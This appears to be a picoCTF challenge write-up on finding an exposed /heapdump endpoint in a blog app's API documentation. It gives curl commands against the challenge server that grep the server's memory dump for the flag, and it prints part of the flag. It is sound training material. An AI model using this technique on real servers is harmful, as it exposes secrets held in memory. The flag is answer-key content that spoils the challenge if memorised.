 # Description

Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag.
The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden.
The website is running picoCTF News.

# Solution

Go to api documention scroll down click head dump and try it out then run the command and grep for picoctf or put it into a file then grep:

```
curl -X 'GET' \
  'http://verbal-sleep.picoctf.net:63972/heapdump' \
  -H 'accept: */*' 
```

Or you can just do:

`curl http://verbal-sleep.picoctf.net:63972/heapdump | grep pico`

Flag: `picoCTF{Pat!3nt_15_Th3_K3y_ad7e...}`